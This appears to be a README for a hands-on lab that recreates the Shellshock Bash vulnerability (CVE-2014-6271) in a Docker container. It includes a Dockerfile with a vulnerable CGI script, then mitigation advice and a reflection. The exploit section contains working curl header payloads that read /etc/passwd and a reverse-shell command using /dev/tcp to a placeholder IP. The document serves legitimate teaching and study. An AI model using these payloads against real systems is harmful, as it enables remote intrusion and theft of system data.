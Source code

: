 # CVE Recreation: Shellshock (CVE-2014-6271)

### Details

CVE ID: <br>
**CVE-2014-6271**

Vulnerability Name: <br>
**Shellshock**

Vulnerable Software: <br>
**GNU Bash (versions < 4.3)**

Vulnerability Type: <br>
**Remote Code Execution (via crafted environment variables)**

Severity: <br>
**10.0 CVSS v2 (Critical), 9.8 CVSS v3 (Critical)**

---

### Summary

CVE-2014-6271, known as "Shellshock", is a critical vulnerability in GNU Bash that allows attackers to execute arbitrary commands by injecting specially crafted environment variables. It was discovered in 2014 and affects systems where Bash is used to process environment variables, particularly in network services like CGI scripts on web servers. 

The bug occurs because Bash improperly executes function definitions passed as environment variables, and mistakenly continues parsing and executing commands following the function.

---

### Example of the Vulnerability

You can test whether a version of Bash is vulnerable using:
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

If the Bash version is vulnerable, it will output:
```
VULNERABLE
test
```

### How it works

-	`env x='() { :;}; echo VULNERABLE'` creates an environment variable x that looks like a function definition.
-	Bash is supposed to define x as a function and ignore the rest.
-	However, vulnerable versions of Bash continue parsing after the function, executing echo VULNERABLE, which is the flaw.

---

### Test Environment Setup

•	OS: Ubuntu 14.04

•	Bash version: 4.3.8 (unpatched, vulnerable confirmed via env test)

•	Web server: Apache2 with CGI enabled

•	Vulnerable script: Bash-based CGI script at /usr/lib/cgi-bin/vulnerable.sh

<br>

I first tested this in a raw Ubuntu 14.04 virtual machine:

<img src="./Screenshots/Screenshot1.png" width=80% height=80%><br><br>

`Bash –-version`:

<img src="./Screenshots/Screenshot2.png" width=80% height=80%><br><br>

Then ran:

`env x='() { :;}; echo VULNERABLE' bash -c "echo test"`:

<img src="./Screenshots/Screenshot3.png" width=80% height=80%><br><br>

Result confirmed it was vulnerable.

---

### Turning into a Docker Image

To make this reproducible and portable, I created a Docker container using Ubuntu 14.04 with Apache and a vulnerable Bash CGI script:

```dockerfile
FROM ubuntu:14.04

# Install Apache, build tools, wget, dos2unix, etc.
RUN apt-get update && \
    apt-get install -y apache2 wget build-essential curl dos2unix && \
    apt-get install -y --no-install-recommends software-properties-common && \
    apt-get clean

# Install Bash 4.3 (vulnerable version)
WORKDIR /tmp
RUN wget http://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz && \
    tar -xvzf bash-4.3.tar.gz && \
    cd bash-4.3 && \
    wget http://ftp.gnu.org/gnu/bash/bash-4.3-patches/bash43-001 && 
    patch -p0 < bash43-001 && \
    ./configure && make && make install && \
    bash --version

# Replace the system's bash with the vulnerable one
RUN mv /bin/bash /bin/bash.bak && ln -s /usr/local/bin/bash /bin/bash

RUN a2enmod cgi
RUN mkdir -p /usr/lib/cgi-bin
COPY vulnerable.sh /usr/lib/cgi-bin/vulnerable.sh
RUN dos2unix /usr/lib/cgi-bin/vulnerable.sh
RUN chmod +x /usr/lib/cgi-bin/vulnerable.sh

EXPOSE 80

CMD ["/bin/bash", "-c", "rm -f /var/run/apache2/apache2.pid && apache2ctl -D FOREGROUND"]
```

And the `vulnerable.sh` CGI script:
```.sh
#!/bin/bash
echo "Content-type: text/html"
echo
echo "Vulnerable CGI script"
```

Built and ran with:
```cmd
docker build -t shellshock_lab .
docker run --rm -it -p 8080:80 shellshock_lab
```

Then accessed at:
```html
http://localhost:8080/cgi-bin/vulnerable.sh
```

---

### How to use the Docker

On your machine, run `sudo docker pull oscaryr/shellshock_lab:latest` to pull the docker:

<img src="./Screenshots/Screenshot4.png" width=80% height=80%><br><br>

Then, `sudo docker run -p 8080:80 oscaryr/shellshock_lab:latest` to run the docker:

<img src="./Screenshots/Screenshot5.png" width=80% height=80%>

> Note: **The AH00558: apache2: message can be safely ignored**

<br><br>

Browse to `localhost:8080/cgi-bin/vulnerable.sh` to verify if the Shellshock CGI is working:

<img src="./Screenshots/Screenshot6.png" width=80% height=80%><br><br>

The terminal that running the docker won’t be interactable, we need to open a new terminal and access to the docker:

`sudo docker ps` to show existing dockers
<img src="./Screenshots/Screenshot7.png" width=80% height=80%><br><br>

`sudo docker exec -it [container_name or ID] /bin/bash` to interact with the docker
<img src="./Screenshots/Screenshot8.png" width=80% height=80%><br><br>

We can now exploit the Bash vulnerability via the CGI script using a malicious HTTP header:

#### Exploit Commands

1. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost/cgi-bin/vulnerable.sh`
   
   <img src="./Screenshots/Screenshot9.png" width=80% height=80%><br>

   - Apache passes all HTTP headers as environment variables to the CGI script.
   - The User-Agent header becomes an environment variable, like:
     `export HTTP_USER_AGENT="() { :; }; /bin/bash -c 'cat /etc/passwd'"`
   - Since Bash is vulnerable, it doesn’t stop after defining the fake function, and continues to execute the rest. In this case, it's `cat /etc/passwd`.
   - This is how remote command execution happens.

<br>

2. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://localhost/cgi-bin/vulnerable.sh`

   <img src="./Screenshots/Screenshot10.png" width=80% height=80%><br><br>

3. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'touch /tmp/shellshock_worked'" http://localhost/cgi-bin/vulnerable.sh`
   <img src="./Screenshots/Screenshot11.png" width=80% height=80%><br><br>

#### Reverse Shell Demonstration

Open another new terminal, set up the listener:

<img src="./Screenshots/Screenshot12.png" width=80% height=80%><br><br>

Back to the interactive docker terminal:
```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'" \
http://localhost/cgi-bin/vulnerable.sh
```

<img src="./Screenshots/Screenshot13.png" width=80% height=80%><br><br>

Result:

<img src="./Screenshots/Screenshot14.png" width=80% height=80%>

> Note: **To stop the terminal that running the docker, on the second terminal, exit the interaction of docker, then use sudo docker stop [Container Name or ID]**

---

### Patch & Mitigation

- Upgrade to a patched version of Bash (≥ 4.3.27)
- Use security tools like AppArmor or SELinux to restrict CGI behavior
- Avoid using Bash for CGI scripts

To verify it’s patched, run the same command:
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

If it only outputs:
```bash
test
```

Then it’s not vulnerable:

<img src="./Screenshots/Screenshot15.png" width=80% height=80%><br><br>

---

### Reflection

I learned a lot of important security lessons from the Shellshock vulnerability (CVE-2014-6271), particularly about how Bash parses environment variables and how CGI scripts pass HTTP headers into shell environments. It showed how simple it is to use HTTP headers as attack vectors in the scenario where input sanitization is inadequate. This vulnerability helped me to gain hands-on experience in building vulnerable environments within Docker, allowing me to better understand the risks of legacy systems and how they can be exploited in the real world. Even though Shellshock is relatively simple and straightforward, it still serves as a reminder of how crucial it is to properly validate input and to fix security holes in out-of-date systems in order to stop significant exploitation.

